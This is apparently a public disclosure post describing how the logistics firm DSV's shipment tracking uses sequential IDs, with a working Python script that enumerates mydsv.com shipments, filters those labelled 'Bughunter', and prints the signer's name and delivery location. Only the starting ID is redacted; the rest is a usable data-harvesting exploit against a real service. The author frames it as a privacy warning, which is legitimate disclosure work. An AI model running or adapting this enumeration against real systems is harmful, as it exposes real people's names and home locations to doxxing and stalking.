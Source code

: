 ```yaml
---
title: Leaking the locations of the top Google VRP Bug hunters (WAI)
---
```


When Google gave bug hunters swag they used a logistics company called DSV.
Unfortunately they allow for tracking shipments using an incremental number.

```python
import httpx

requests = 2000
start = <redacted>

def parseSearch(search, id):
    for item in search['data']:
        if item['mainTmsShipmentId'] == str(id):
            return item['randomIdentifier']

def printID(id):
    ShipmentId = str(id)
    Results = httpx.get('https://mydsv.com/app/search/publicShipmentList?q=' + ShipmentId).json()
    RandomId = parseSearch(Results, ShipmentId)
    if not RandomId:
        return
    Shipment = httpx.get('https://mydsv.com/app/search/shipment/' + RandomId).json()
    if 'Bughunter' in str(Shipment['description']):
        print(str(Shipment['signedBy']) + ',' + str(Shipment['delivery']['formattedLocation']).replace(',','') + ' ' + str(Shipment['delivery']['countryCode']))


for i in range(requests):
    printID(start+i)
    if i == 0:
        continue
    printID(start-i)
```
The following code gets their location and the name of who signed for it (if any) by searching the range.

If you're affected by this you can contact the company for data deletion, I don't feel ignoring it is helping to protect people's privacy now or in future use.
I am however keeping the start value secret for privacy through obscurity, in case the attacker doesn't know how to count.
